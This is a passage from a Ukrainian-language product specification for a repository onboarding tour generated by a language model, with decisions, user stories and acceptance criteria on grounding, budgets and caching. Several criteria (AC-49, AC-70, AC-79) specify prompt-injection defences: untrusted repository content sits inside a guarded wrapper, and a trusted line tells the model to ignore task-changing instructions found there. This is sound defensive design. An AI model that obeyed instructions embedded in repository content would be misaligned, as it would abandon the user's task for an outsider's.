за `container.tokenizer`. Двадцять, а не дванадцять як у `conventions`
(`TOP_FILE_COUNT`, `constants.ts:4`), бо там завдання вужче — витягти правила стилю, для чого
досить перших рядків файлу; тур має описати архітектуру, критичні шляхи і придумати перші таски,
тобто хоче ширший зріз. Стеля на файл лишається та сама, бо вона **виведена, а не обрана**:
`MAX_FILE_CHARS` тримає властивість «модель могла процитувати лише те, що ми можемо перевірити»
(`conventions/constants.ts:29-47`).

Це та сама дисципліна, якою `SPEC-02` зафіксувала свої 8 000: число назване, одиниця названа,
лічильник названий, і те, що в число не влізло, видно (AC-86). Перегляд — із зібраних чисел
(AC-48, AC-52), а не з нового припущення.

**D24 — Пакети шукаються обходом клону на фіксовану глибину.** _(Людина, 2026-08-17, відповідь на
Q-8.)_ «Знайдений пакет» отримує означення, якого AC-19 доти не мав: файл `package.json` у клоні
на глибині не більшій за названу, зі стелею на кількість пакетів.

**Відхилений варіант, і причина, а не лише вибір.** Читати `workspaces` з кореневого `package.json`
і `pnpm-workspace.yaml` — дешевше й точніше **там, де воркспейс оголошений**. Відкинуто, бо
`AGENTS.md:5` каже прямо: «no monorepo workspace — each owns its `package.json` and lockfile».
Тобто механізм, що працює лише для оголошеного воркспейсу, провалився б саме на тому
репозиторії, на якому цю фічу демонструють: DevDigest своїх п'яти пакетів ніде не перелічує, і
секція «Як запустити» показала б для нього рівно один блок — кореневий, якого в нього навіть
немає. Обхід працює в обох випадках, оголошений воркспейс чи ні.

**Стартові числа, за тим самим прийомом, що й D23 — названі, вимірювані, не остаточні:**

| Величина | Старт | Чому саме так |
|---|---|---|
| Глибина обходу | **2** | Покриває обидва реальні розклади: DevDigest тримає пакети на глибині 1 (`server/`, `client/`, `reviewer-core/`, `e2e/`, `mcp/`), а поширений решти світу — на глибині 2 (`packages/*/`, `apps/*/`). Глибина 1 зламала б другий випадок, глибина 3 купує мало і коштує обходом. |
| Пакетів максимум | **12** | Шість DevDigest (п'ять плюс корінь) із запасом, і водночас межа, за якою секція перестає бути онбордингом і стає лістингом тек: п'ятдесят блоків команд ніхто не читає. |

**Що з цього вже вміє порт, а що є роботою — звірено з кодом, а не припущено.**

`GitClient.listFiles` (`vendor/shared/adapters.ts:318-327`,
`server/src/adapters/git/simple-git.ts:430-459`) дає **безоплатно** три речі, і дублювати їх не
можна:

- **Виключення тек уже є і `node_modules` серед них.** `EXCLUDED_WALK_DIRS` — це
  `node_modules`, `dist`, `build`, `coverage`, `.next`, `out`, `vendor`, `.git`
  (`server/src/adapters/git/constants.ts:15-24`), і `walkDocs` пропускає такий каталог цілком
  (`simple-git.ts:479`). Спека це **не вимагає наново** — вона фіксує наслідок (AC-93), щоб
  ніхто не додав другий список.
- **Симлінки не проходять взагалі** (`entry.isSymbolicLink()` → `continue`), а корінь поза клоном
  відкидається через `realpath` і префіксну перевірку.
- **Стеля вже сигналізує про себе:** метод повертає `{ files, bounded }`, де `bounded` істинне
  саме тоді, коли результат довелося зрізати (`simple-git.ts:457-458`). Це готовий сигнал під
  вимогу «перевищення видно» (AC-90), а не нова машинерія.

Але **двох речей порт не вміє, і це робота, яку спека зобов'язана назвати**:

1. **Він фільтрує за розширенням, а не за іменем файлу.** `extensions` описані як «lower-cased,
   dot-prefixed, e.g. `['.md']`» і звіряються через `extname(entry.name)`
   (`adapters.ts:322-323`, `simple-git.ts:484`). `package.json` — це **ім'я**, а не розширення;
   запит на `.json` поверне `tsconfig.json`, `package-lock.json` і кожну фікстуру в клоні.
2. **Він не має межі глибини.** `walkDocs` рекурсивно сходить до дна кожного кореня; параметра
   глибини в сигнатурі немає взагалі.

**Пастка, яка звідси випливає і яку спека закриває критерієм.** Спокуслива дешева реалізація —
попросити `.json` з `maxFiles: 12` і відфільтрувати `package.json` уже в себе — **мовчки
неправильна**: зріз за `maxFiles` відбувається **до** фільтра, за алфавітом, тож дванадцять
перших JSON-файлів клону можуть не містити жодного `package.json`, і секція вийде порожньою на
репозиторії, у якого пакети є. Тому AC-91 вимагає, щоб стеля рахувала **знайдені пакети**, а не
переглянуті файли.

**Куди йде переповнення стелі — і куди воно НЕ йде.** Пакети, відкинуті стелею, — це **наш**
зріз входу, а не відхилена претензія моделі. Тому вони показуються серед станів входів разом із
рештою зрізаного (AC-86, AC-90) і **не** входять у лічильники заземлення AC-40: там лічиться те,
що модель заявила, а ми не підтвердили. Змішати їх означало б звітувати про власну стелю як про
галюцинацію моделі.

## User stories

**US-1.** Як розробник, що вперше відкрив проєкт, я хочу побачити його архітектуру — загальну і з
вкладеністю, — щоб зрозуміти, де що шукати, не читаючи дерево тек.
**US-2.** Як новачок, я хочу побачити ключові flows застосунку, щоб зрозуміти, як тут усе
рухається, а не лише де воно лежить.
**US-3.** Як новачок, я хочу дістати інструкцію запуску, зібрану з коду й конфігів цього проєкту,
щоб не вгадувати, які команди тут справді працюють.
**US-4.** Як новачок, я хочу мати рекомендований порядок читання коду, щоб не загубитись у великому
проєкті й знати, з якого файлу почати.
**US-5.** Як новачок, я хочу побачити перші задачі з міткою складності, щоб самому обрати, з чого
почати, відповідно до своєї впевненості.
**US-6.** Як людина, що читає тур, я хочу бути певною, що кожен названий файл, шлях і команда
справді існують у цьому репозиторії, щоб не витрачати перший день на пошук того, чого немає.
**US-7.** Як людина, що платить за виклики, я хочу, щоб відкриття сторінки нічого не коштувало, а
генерування було окремою свідомою дією, і щоб було видно, коли тур застарів.
**US-8.** Як людина, що читає тур, я хочу знати, чого в ньому немає і чому, щоб не вважати повним
те, що зібрано з половини входів.

## Acceptance criteria (EARS)

_Номери — стабільні ідентифікатори. AC-77…AC-81 — другі половини критеріїв, що несли по два
`shall`; AC-82…AC-88 дописані за відповідями 2026-08-17 і стоять у власному розділі, зберігши
номери._

### Сторінка, навігація і розкладка

**AC-1.** **КОЛИ** користувач відкриває Onboarding Tour репозиторію, у якого тур збережений,
система повинна (shall) показати рівно п'ять секцій у порядку макета: архітектура, критичні
шляхи, як запустити, порядок читання, перші таски.

**AC-2.** Порожній стан сторінки повинен (shall) описувати ті п'ять секцій, які фіча справді
будує, і не називати жодної, якої в ній немає. _(Наявний рядок скафолдингу
`client/messages/en/onboarding.json:10` перелічує іншу п'ятірку — D11.)_

**AC-3.** **КОЛИ** користувач відкриває сторінку, система повинна (shall) показати над секціями
заголовок із назвою репозиторію і рядок походження, що несе два факти окремо: скільки файлів
містив індекс, з якого тур зібрано, і коли тур було згенеровано.

**AC-4.** Сторінка повинна (shall) показувати бічну навігацію по секціях із п'ятьма пунктами, чиї
підписи збігаються із заголовками секцій.

**AC-5.** **КОЛИ** користувач переходить до секції через бічну навігацію, система повинна (shall)
відобразити обрану секцію в URL так, щоб відкриття цього URL наново привело до тієї самої секції.

**AC-6.** Пункт «Onboarding Tour» повинен (shall) стояти в групі WORKSPACE лівої навігації з
власною g-клавішею, не зайнятою наявними пунктами, і з'являтися в командній палітрі як «Go to
Onboarding Tour». _(Зайняті: `p`, `d`, `s`, `a`, `c`, `,` — `nav.ts:25-48`.)_

**AC-7.** Реєстр клавіатурних скорочень повинен (shall) отримати рядок нового пункту.
_(Він **не** виводиться з `NAV.items[].gKey` — «NOT derived … it is hand-maintained … needs an
entry here too», `client/src/vendor/ui/nav.ts:60-63`. Пропущений рядок дає працюючий шорткат,
якого немає в довідці.)_

**AC-8.** Маршрут `/onboarding` повинен (shall) і далі показувати екран додавання репозиторію
без змін у поведінці. _(Пара розрізнення до AC-6; стереже `e2e/specs/06-onboarding.flow.json`,
який має лишитися зеленим без правок — D2. Пастка тут конкретна: `activeKeyFor` мапить **будь-який**
шлях, що містить `/onboarding`, на ключ `onboarding-tour`
(`client/src/components/app-shell/helpers.ts:29`), тобто обидва маршрути сьогодні задовольняють
одну умову.)_

**AC-9.** **ЯКЩО** репозиторію із запитаним ідентифікатором немає або він належить іншому
воркспейсу, **ТОДІ** система повинна (shall) відповісти однаково в обох випадках і не показати
жодної частини туру. _(Пара невдачі до AC-1; IDOR.)_

### Секція «Архітектура»

**AC-10.** Секція архітектури повинна (shall) описувати проєкт у прозі, що спирається на скелет
репозиторію з індексу, і називати конкретні шляхи цього репозиторію, а не типові для стека.

**AC-11.** **ЯКЩО** секція архітектури несе mermaid-діаграму, **ТОДІ** система повинна (shall)
відрендерити її як діаграму.

**AC-12.** **ЯКЩО** mermaid-джерело не парситься, **ТОДІ** система повинна (shall) показати
решту секції без діаграми і без помилки на всю сторінку. _(Пара невдачі до AC-11.)_

**AC-13.** Вузли діаграми не повинні (shall not) бути клікабельними. _(D12: частина вузлів —
поняття, а не файли, і візуально вони не відрізняються.)_

### Секція «Критичні шляхи»

**AC-14.** Секція критичних шляхів повинна (shall) показувати ключові flows як упорядковані
переліки файлів цього репозиторію, зібрані з ланцюгів `getCriticalPaths`.

**AC-15.** Кожен рядок критичного шляху повинен (shall) нести шлях файлу і коротке пояснення,
навіщо його знати.

**AC-16.** **КОЛИ** користувач активує рядок критичного шляху, система повинна (shall) привести
його до цього файлу в застосунку.

**AC-17.** **ЯКЩО** шлях рядка не пройшов перевірку існування (AC-37), **ТОДІ** система повинна
(shall) не показати цей рядок узагалі. _(Пара невдачі до AC-16.)_

**AC-18.** **ЯКЩО** граф імпортів порожній і ланцюгів немає, **ТОДІ** система повинна (shall)
показати секцію з явним текстом про це, а не приховати її і не заповнити топ-ранговими файлами.
_(`getCriticalPaths` віддає `[]` при порожньому `file_edges` — `repo-intel/service.ts:704-705`.)_

### Секція «Як запустити проєкт»

**AC-19.** _(Переписано 2026-08-17 за відповідями на Q-4 і Q-8.)_ Секція запуску повинна (shall)
показувати команди **згрупованими за пакетом** — один блок на кожен **показаний** пакет, із назвою
пакета над його командами. _(Перша редакція вимагала одного впорядкованого переліку кроків; це
було правильно лише для однопакетного репозиторію — D18. «Знайдений пакет» отримав означення в
D24, а «показаний» замість «знайдений» тут не косметика: зі стелею AC-90 показані й знайдені
можуть не збігатися, і критерій, що обіцяє блок на кожен знайдений, при спрацьованій стелі був
би невиконаним.)_

**AC-20.** Кожна команда повинна (shall) бути показана як текст із контролом копіювання, який
копіює рівно ту саму строку, що показана, повністю і без обрізання.

**AC-21.** Секція повинна (shall) називати змінні середовища, потрібні для запуску, лише тоді,
коли їх названо у прочитаному конфігу репозиторію.

**AC-22.** Секція запуску не повинна (shall not) пропонувати жодної дії, що виконує показану
команду.

**AC-23.** _(Уточнено 2026-08-17.)_ **ЯКЩО** команда називає скрипт, якого немає в `package.json`
**того пакета, у чий блок вона потрапила**, **ТОДІ** система повинна (shall) не показати цю
команду і врахувати її у відкинутому. _(Пара невдачі до AC-19; AC-40. «У жодному прочитаному» з
першої редакції для монорепо замало: скрипт `dev`, що є в `client/`, не робить дійсною команду
`dev` у блоці `mcp/`.)_

**AC-24.** _(Уточнено 2026-08-17 за відповіддю на Q-8.)_ **ЯКЩО** обхід не знайшов жодного пакета,
**ТОДІ** система повинна (shall) показати секцію запуску з одним явним текстом, що конфігурації
запуску не знайдено, і назвати глибину та виключення, за якими шукали — а не показати типову
інструкцію для вгаданого стека.

_Три речі, які цей критерій навмисно тримає разом, щоб їх не розвели на два тексти:_

- **Нуль пакетів і «жодного конфігу» — один стан, не два.** Пакет тут і є тим конфігом: після
  D24 «знайти конфіг запуску» означає «знайти `package.json`». Два окремі повідомлення для однієї
  ситуації читалися б як дві різні проблеми.
- **Це не відмова від туру.** AC-83 відмовляє в генеруванні за станом **індексу**; тут індекс
  цілий, а пакетів немає. Репозиторій на TS без жодного `package.json` — дивний, але можливий
  (бібліотека, що збирається деінде), і решта чотирьох секцій для нього повністю дійсна. Тур
  генерується; порожня рівно одна секція.
- **Назвати треба параметри обходу, а не список імен файлів.** Після D24 шукали не «за списком
  шляхів», а обходом на глибину; текст, що називає старий фіксований перелік, описував би не ту
  механіку. _(Найгостріший ризик вигадування в усій фічі: саме тут модель упевнено пише
  `npm install` з нічого. Прецедент форми — `SPEC-01` AC-5, порожній стан називає те, за чим
  шукали.)_

**AC-25.** _(Переписано 2026-08-17 за відповіддю на Q-4.)_ Менеджер пакетів у командах блоку
повинен (shall) відповідати лок-файлу, що лежить поруч із `package.json` **саме цього пакета**.
_(Перша редакція міряла проти «лок-файлу, знайденого в репозиторії» — одного на весь репозиторій.
У DevDigest таких лок-файлів кілька і вони різні: `server/` і `client/` на pnpm, `reviewer-core/`,
`e2e/` і `mcp/` на npm, `AGENTS.md:32` — «Do not mix». Тобто перша редакція визнала б дійсною
саме ту помилку, яку тут найлегше згенерувати — D18.)_

### Секція «Guided reading план»

**AC-26.** Секція порядку читання повинна (shall) показувати пронумерований перелік файлів у
рекомендованому порядку, кожен із причиною, чому він стоїть саме тут.

**AC-27.** **КОЛИ** користувач активує пункт порядку читання, система повинна (shall) привести
його до цього файлу в застосунку.

**AC-28.** Перший пункт порядку читання повинен (shall) називати файл, що входить до ланцюгів
критичних шляхів або до топ-рангованих файлів цього репозиторію. _(Інакше «з чого почати» —
здогад, а не висновок з індексу.)_

**AC-29.** **ЯКЩО** індекс не дає ані ланцюгів, ані рангованих файлів, **ТОДІ** система повинна
(shall) показати секцію з явним текстом замість переліку. _(Пара невдачі до AC-26.)_

### Секція «Перші таски»

**AC-30.** Секція перших тасок повинна (shall) показувати перелік задач, кожна з назвою, шляхом
у репозиторії та міткою складності.

**AC-31.** Мітка складності повинна (shall) нести рівно одне значення із закритого переліку з
трьох: низька, середня, висока.

**AC-32.** **ЯКЩО** модель повернула значення складності поза цим переліком, **ТОДІ** система
повинна (shall) відхилити цю задачу, а не нормалізувати значення й не підставити дефолт.
_(Пара невдачі до AC-31; доктрина закритої таксономії — `knowledge.ts:154-158`.)_

**AC-33.** Мітка складності повинна (shall) бути читабельною без кольору — тобто нести текст
рівня, а не лише колірний стан.

**AC-34.** **ЯКЩО** шлях задачі не пройшов перевірку існування (AC-37), **ТОДІ** система повинна
(shall) не показати цю задачу і врахувати її у відкинутому.

**AC-35.** **ЯКЩО** після перевірок не лишилося жодної задачі, **ТОДІ** система повинна (shall)
показати секцію з явним текстом про це і не показувати нуля як результату. _(Прецедент і причина:
«zeros there would assert the run was clean rather than admit the breakdown is unknown» —
`client/INSIGHTS.md:1631-1633`.)_

**AC-36.** Секція перших тасок не повинна (shall not) створювати, надсилати чи реєструвати задачу
в жодній системі — вона її лише показує.

### Заземлення

**AC-37.** Кожен шлях, показаний у турі — у посиланні секції, у рядку критичного шляху, у пункті
порядку читання, у задачі — повинен (shall) відповідати файлу, що існує в клоні цього репозиторію
на тому стані індексу, з якого тур зібрано.

**AC-38.** **ЯКЩО** шлях не існує, **ТОДІ** система повинна (shall) не показати його зовсім і
врахувати його у відкинутому. _(Пара невдачі до AC-37. Прецедент: претензія, чий доказ не
знайшовся в клоні, «never reaches this shape» — `knowledge.ts:187-189`.)_

**AC-39.** **ЯКЩО** у тексті секції трапляється рядок, схожий на шлях, **ТОДІ** система повинна
(shall) зробити його посиланням лише після перевірки існування, а неперевірений лишити звичайним
текстом. _(Макет показує `src/server.ts` усередині прози архітектури. Відсутність посилання
означає рівно «цього ми не підтвердили», і це видно без легенди — доктрина `SPEC-02` D19(а).)_

**AC-40.** Система повинна (shall) записати на кожне генерування, скільки претензій відкинуто і
за якою причиною окремо: неіснуючий шлях, невідомий скрипт, невідповідний менеджер, невідоме
значення складності, секція поза переліком. _(«The audit is the only record of what grounding
threw away» — `conventions/routes.ts:57-59`.)_

**AC-41.** **ЯКЩО** шлях порушує правила repo-відносного шляху — абсолютний, із сегментом `..`,
з керуючим символом, із префіксом `.git/`, або резолвиться через симлінк за межі клону — **ТОДІ**
система повинна (shall) відхилити його до будь-якої перевірки існування і не будувати з нього
посилання.

**AC-42.** **ЯКЩО** секція повернулася з `kind` поза закритим переліком із п'яти, **ТОДІ** система
повинна (shall) відхилити цю секцію, а не показати її шостою.

**AC-43.** Проза туру не повинна (shall not) містити кількісних тверджень про репозиторій.
_(D7 і D21: число від моделі — не доказ, `contracts/brief.ts:35-39`. Це названа розбіжність із
рядком макета «used by 14 routes».)_

**AC-44.** **ЯКЩО** після заземлення в секції не лишилося жодного посилання, **ТОДІ** система
повинна (shall) показати її прозу без посилань, а не приховати секцію. _(Секція без посилань — це
менше, ніж обіцяно, але не нуль; зникла секція зсуває сторінку і читається як «ще вантажиться».)_

### Виклик моделі, бюджет і час

**AC-45.** **КОЛИ** користувач запускає генерування, система повинна (shall) зробити рівно один
структурований виклик моделі на всі п'ять секцій.

**AC-46.** Система повинна (shall) зробити нуль викликів моделі на будь-яке читання збереженого
туру.

**AC-47.** Зібраний вхід виклику повинен (shall) вкладатися в названий бюджет токенів, порахований
тим самим лічильником, що й в інших фічах, **до** виклику.

**AC-48.** **ЯКЩО** зібраний вхід перевищує бюджет, **ТОДІ** система повинна (shall) відкидати
входи у зворотному порядку пріоритету, з одною точкою зрізу, і записати статус кожного входу.
_(Пара невдачі до AC-47; порядок — D13.)_

**AC-49.** Кожен зовнішній вхід повинен (shall) потрапляти в промт усередині недовіреної обгортки
під спільним `INJECTION_GUARD`.

**AC-50.** Виклик повинен (shall) виконуватися під власним явним годинником, а не під дефолтом
адаптера. _(`OpenRouterProvider` має власний дедлайн 600 000 мс; дефолт цієї фічі — дешева
модель через `openrouter`, тобто саме той шлях. Прогін уже одного разу простояв пів години на
добутку таких дефолтів — `SPEC-02` NFR «Таймаут і повтор виклику».)_

**AC-51.** **ЯКЩО** відповідь моделі не пройшла схему, **ТОДІ** система повинна (shall) зробити не
більш ніж одну спробу ремонту, а після неї — показати помилку і не зберегти нічого.
_(`parseWithRepair` — `reviewer-core/src/llm/structured.ts:54-79`.)_

**AC-52.** Система повинна (shall) записати на кожне генерування кількість фактичних спроб, наш
підрахунок вхідних токенів, ідентифікатор лічильника, `tokens_in` провайдера і вартість.
_(Кількість спроб — це вимірювач умови перегляду D3, а не декорація.)_

**AC-53.** **ЯКЩО** модель для фічі не налаштована і ключа провайдера на машині немає, **ТОДІ**
система повинна (shall) показати стан «модель не налаштована» з дорогою до Settings, а не
серверну помилку.

### Кеш, застарілість і регенерація

**AC-54.** Збережений тур повинен (shall) нести стан індексу, з якого його зібрано — принаймні
sha останнього індексування і кількість проіндексованих файлів.

**AC-55.** **КОЛИ** користувач відкриває сторінку вдруге і згодом, система повинна (shall) віддати
збережений тур без жодного виклику моделі.

**AC-56.** **ЯКЩО** індекс просунувся далі стану, з якого тур зібрано, **ТОДІ** система повинна
(shall) показати тур із позначкою застарілості, що називає обидва стани, і **не** перегенерувати
його самочинно. _(Підтверджено 2026-08-17 — D22.)_

**AC-57.** **КОЛИ** користувач натискає регенерування, система повинна (shall) зібрати тур наново
з поточного стану індексу і замінити збережений запис.

**AC-58.** **ПОКИ** триває генерування, система повинна (shall) показувати стан виконання і не
подавати попередній тур як щойно згенерований.

**AC-59.** Після успішного регенерування попередній тур не повинен (shall not) бути доступним
ніде в застосунку. _(Наслідок D8; названо як вимога, щоб ніхто не шукав скасування.)_

**AC-60.** **ЯКЩО** генерування не вдалося, **ТОДІ** система повинна (shall) лишити попередній
збережений тур недоторканим, показати причину і лишити дію генерування доступною — вимкненою лише
власною мутацією, що зараз виконується. _(Пара невдачі до AC-57. Кнопка, вимкнена станом, з якого
вона виводить, — уже записана помилка: `client/INSIGHTS.md:297-311`.)_

**AC-61.** Маршрут генерування повинен (shall) нести межу частоти на воркспейс і резолвити
репозиторій через воркспейс викликача **до** будь-якої витрати.

### Порожні й часткові стани

**AC-62.** **ЯКЩО** туру для цього репозиторію ще немає, **ТОДІ** система повинна (shall) показати
порожній стан із дією згенерувати, а не спінер і не автоматичне генерування. _(D9.)_

**AC-63.** **ЯКЩО** індекс репозиторію відсутній, неготовий або деградований, **ТОДІ** система
повинна (shall) відмовити в генеруванні, назвати причину і не зробити жодного виклику моделі.
_(`getIndexState` уже виконує роль гейта в сусідній фічі: «`getIndexState` gates the other two:
on an unindexed repo they are never called» — `repo-intel/README.md:54-55`. Тур над
непроіндексованим репозиторієм — це модель, що вигадує архітектуру з нічого.)_

**AC-64.** **ЯКЩО** індекс частковий, **ТОДІ** система повинна (shall) згенерувати тур, показати
позначку неповноти і назвати, скільки файлів пропущено. _(`IndexStatus` = `full` | `partial` |
`degraded` | `failed`, і `filesSkipped` уже є — `repo-intel/types.ts:25,34-38`.)_

**AC-65.** Сторінка повинна (shall) показувати перелік входів, які брали участь у генеруванні, і
стан кожного, щоб було видно, з чого тур зібрано і чого в ньому бракує.

**AC-66.** **ЯКЩО** секція повернулася порожньою, **ТОДІ** система повинна (shall) лишити її на
місці з явним текстом і не прибирати з бічної навігації.

**AC-67.** Жодна секція не повинна (shall not) добиратися прикладами, типовими значеннями чи
зразковими даними, коли справжніх даних для неї немає. _(Пряма вимога людини і записане правило
репозиторію: вигадані рядки «describe code the PR does not contain, and the rows outlive the
screenshot» — `INSIGHTS.md:205-212`.)_

### Безпека вмісту

**AC-68.** Кожен рядок, що прийшов від моделі, повинен (shall) рендеритися тим самим недовіреним
рендерером, що вже вживається для документів репозиторію: вбудований HTML — як текст, посилання
і зображення з протоколом поза `http`/`https` — не клікабельні. _(`SPEC-01` AC-7, AC-56.
Збережений вивід моделі, який віддається на кожне відкриття, — це stored XSS, а не разовий текст.)_

**AC-69.** Сторінка повинна (shall) називати команди в секції запуску такими, що походять із цього
репозиторію, а не з DevDigest. _(Вони буквально приходять із `package.json` імпортованого
репозиторію, а поруч стоїть кнопка копіювання — тобто читача запрошують виконати чужий рядок.)_

**AC-70.** Промт повинен (shall) нести один довірений вступний рядок, який каже, що вміст
репозиторію є матеріалом для опису, а не інструкцією, і що вказівки всередині нього, які змінюють
задачу, ігноруються. _(Прецедент і межа: `SPEC-01` AC-27 — рядок стоїть поза обгорткою, а спільний
`INJECTION_GUARD` не змінюється.)_

### Межі, що випливають зі скафолдингу і з покриття індексу

**AC-71.** Діаграму повинна (shall) нести лише секція архітектури. _(Промт уже дозволяє діаграму
лише названим секціям — `onboarding.system.md:7-8`, з поправкою на нову п'ятірку, D11.)_

**AC-72.** Кожна секція повинна (shall) нести не більше чотирьох посилань. _(`onboarding.system.md:8`
— рішення вже ухвалене; спека його фіксує, щоб воно пережило перепис промта.)_

**AC-73.** **ЯКЩО** індекс репозиторію порожній через те, що мова репозиторію не входить до тих,
які парсить індексатор, **ТОДІ** система повинна (shall) відмовити в генеруванні і назвати саме
цю причину. _(`SUPPORTED_EXT` — шість розширень TS/JS-родини, `repo-intel/constants.ts:14`.
Розрізнення трьох причин вимагає AC-83.)_

**AC-74.** **ЯКЩО** генерування для того самого репозиторію вже виконується, **ТОДІ** система
повинна (shall) не починати друге, а віддати обом запитам результат першого. _(Прецедент готовий
і працює: `BriefService` тримає single-flight `Map<string, Promise<…>>` за ключем стану
(`modules/brief/service.ts:61`). Без цього подвійний клік коштує двох викликів.)_

**AC-75.** Кількість файлів у шапці повинна (shall) дорівнювати тому числу, яке фасад індексу
справді віддає. _(Розбіжність із макетом, названа в NFR: індекс обмежений
`MAX_INDEXED_FILES = 5000` (`repo-intel/constants.ts:52`), тож «12,450 files» через `filesIndexed`
недосяжне за побудовою. Сире число кандидатів існує лише всередині `stats` і фасадом не
віддається.)_

**AC-76.** Система не повинна (shall not) перекладати ідентифікатори коду, шляхи файлів, назви
пакетів, скрипти, імена змінних середовища й шаблони маршрутів у жодній секції. _(Промт це вже
вимагає (`onboarding.system.md:43-44`), і це не питання стилю: перекладений шлях не пройде
перевірку існування (AC-37), тобто переклад тут ламає заземлення, а не читабельність. Після D20
це критично: вміст туру українською, а шлях мовою не буває.)_

### Другі половини розділених критеріїв

_AC-77…AC-81 — це другі поведінки, витягнуті з AC-13, AC-43, AC-49, AC-71 і AC-75. Кожна з тих
п'яти несла два `shall` в одному реченні, а критерій із двома умовами може бути виконаний
наполовину — і саме половину план і верифікатор не вміють ані процитувати, ані оцінити._

**AC-77.** Секція архітектури повинна (shall) називати діаграму такою, чиї вузли не є
перевіреними шляхами. _(Друга половина AC-13. Без неї некликабельність — це властивість, яку
читач списує на недоробку, і він однаково повірить назві вузла як файлу.)_

**AC-78.** Кожне число, показане на сторінці, повинне (shall) бути пораховане кодом з індексу.
_(Друга половина AC-43: перша забороняє числа від моделі, ця вимагає походження для тих, що
лишилися.)_

**AC-79.** Обрізання за бюджетом не повинне (shall not) різати недовірену обгортку.
_(Друга половина AC-49. Обрізаний закривальний тег — це вихід недовіреного вмісту за огорожу,
тобто саме та ін'єкція, від якої огорожа існує.)_

**AC-80.** **ЯКЩО** секція не несе діаграми, **ТОДІ** поле діаграми повинне (shall) бути
відсутнім, а не порожнім рядком, прозою чи заповнювачем. _(Друга половина AC-71 і пара невдачі
до AC-11. Промт це вже вимагає — «never an empty string, prose, or any placeholder»,
`onboarding.system.md:35-36`, — і причина в тому, що порожній рядок рендериться як зламана
діаграма, а не як її відсутність.)_

**AC-81.** Кількість файлів у шапці не повинна (shall not) бути підписана як кількість файлів у
репозиторії. _(Друга половина AC-75. Число чесне, підпис — ні: 5 000 проіндексованих у
репозиторії на 12 000 файлів під написом «12,450 files» перетворює справжнє число на неправдиве
твердження.)_

### Критерії за відповідями людини, 2026-08-17

**AC-82.** **КОЛИ** користувач активує `Share link`, система повинна (shall) покласти в буфер
обміну поточний URL сторінки разом із якорем активної секції. _(D17, Q-1. Разом з AC-5: URL уже
несе секцію, тож копія з якорем — це те, заради чого AC-5 існує.)_

**AC-83.** **ЯКЩО** генерування відмовлене, **ТОДІ** система повинна (shall) назвати рівно одну з
трьох розрізнюваних причин: готового індексу немає, індексація завершилася невдало, мова
репозиторію не підтримується. _(D19, Q-6. Це вимога, а не порада: після рішення «часткового туру
не будуємо» відмова стала єдиною поведінкою для цілого класу репозиторіїв, а дії читача в трьох
випадках різні, і третя остаточна.)_

**AC-84.** **ЯКЩО** причина відмови — відсутність готового індексу, **ТОДІ** текст не повинен
(shall not) стверджувати, що індексація триває або що чекання допоможе. _(Пара невдачі до AC-83.
`IndexStatus` не має стану «будується» (`repo-intel/types.ts:25`), тож «щойно почалося» і
«ніколи не починалося» нерозрізненні — обіцянка, якої система не може підкріпити, тут технічно
неможлива, а не просто небажана. Якщо контракт індексу колись отримає цей стан, критерій
переглядають.)_

**AC-85.** Заголовок секції, підпис у бічній навігації та бейдж складності повинні (shall)
походити з файлів перекладу інтерфейсу, а не з відповіді моделі. _(D20, Q-7. `OnboardingSection.title`
приходить від моделі (`knowledge.ts:37`) і на екран не виводиться — інакше сторінка покаже два
заголовки однієї секції двома мовами.)_

**AC-86.** **ЯКЩО** вибірка файлів була зрізана стелею — за кількістю файлів або за розміром
файлу, — **ТОДІ** система повинна (shall) показати це на сторінці разом із рештою станів входів,
а не зрізати мовчки. _(D23, Q-3. Стелі стартові й підлягають вимірюванню, тож саме видимість
зрізаного робить наступний перегляд можливим із чисел, а не з припущення.)_

**AC-87.** **ЯКЩО** поруч із `package.json` пакета немає жодного лок-файлу, **ТОДІ** система
повинна (shall) показати блок цього пакета без команди встановлення залежностей, а не обрати
менеджер за замовчуванням. _(Пара невдачі до AC-25. Дефолт тут — це здогад, поданий як
інструкція, і найдорожчий з усіх, бо його виконують.)_

**AC-88.** Мова згенерованого вмісту повинна (shall) бути та сама для кожного туру незалежно від
локалі клієнта. _(D20: `{{language}}` фіксується в коді. Якби він брався з локалі, він потрапив би
в ключ генерування і помножив кеш — один тур на репозиторій (D8) перестав би бути одним.)_

### Пошук пакетів _(за відповіддю на Q-8, 2026-08-17)_

**AC-89.** Система повинна (shall) вважати пакетом файл `package.json`, знайдений обходом клону
на глибині не більшій за названу. _(D24. Це означення «знайденого пакета», якого AC-19 доти не
мав; глибина 2 покриває і розклад DevDigest, і `packages/*` — стартова, підлягає вимірюванню.)_

**AC-90.** **ЯКЩО** знайдених пакетів більше за стелю, **ТОДІ** система повинна (shall) показати,
що показано не всі, і скільки саме пакетів не показано. _(D24. Готовий сигнал уже є: `listFiles`
повертає `bounded` саме для цього (`simple-git.ts:457-458`). Мовчазний зріз тут гірший, ніж
деінде: читач монорепо не має способу помітити, що його пакета в переліку немає.)_

**AC-91.** Стеля кількості пакетів повинна (shall) рахувати знайдені пакети, а не переглянуті
файли. _(D24, і це найтихіша пастка фічі: зріз за `maxFiles` у порту відбувається **до** будь-якого
фільтра і за алфавітом, тож «попросити `.json` зі стелею 12 і відсіяти `package.json` у себе»
може дати нуль пакетів на репозиторії, у якого вони є.)_

**AC-92.** Порядок блоків пакетів повинен (shall) бути детермінованим. _(Дві генерації того
самого репозиторію мають дати той самий порядок, інакше «що змінилося між турами» не прочитати.)_

**AC-94.** **ЯКЩО** кореневий пакет існує, **ТОДІ** він повинен (shall) стояти першим блоком.
_(Друга половина AC-92, винесена окремо: разом вони були одним критерієм із двома `shall`, який
можна виконати наполовину. Корінь перший — бо він найчастіше і є точкою входу, і саме його
найдорожче втратити при спрацьованій стелі AC-90.)_

**AC-93.** Жоден пакет із теки залежностей або збірки не повинен (shall not) з'явитися в секції
запуску. _(Порт це вже забезпечує: `EXCLUDED_WALK_DIRS` містить `node_modules`, `dist`, `build`,
`coverage`, `.next`, `out`, `vendor`, `.git` (`server/src/adapters/git/constants.ts:15-24`), і
`walkDocs` пропускає такий каталог цілком (`simple-git.ts:479`). Критерій фіксує **спостережуване**,
а не вимагає другого списку — щоб ніхто не додав власний і не розійшовся з портовим.)_

## Traceability

| AC | Служить | Спостережуване | Джерело вимоги |
|---|---|---|---|
| AC-1 | G1, G7, US-1…US-5 | П'ять секцій у порядку макета на екрані | **макет** `specs/assets/SPEC-03-onboarding-tour.png`; дослівна вимога людини |
| AC-2 | G6, G7 | Текст порожнього стану перелічує ті самі п'ять секцій, що й сторінка | розбіжність зі скафолдингом `client/messages/en/onboarding.json:10`; D11 |
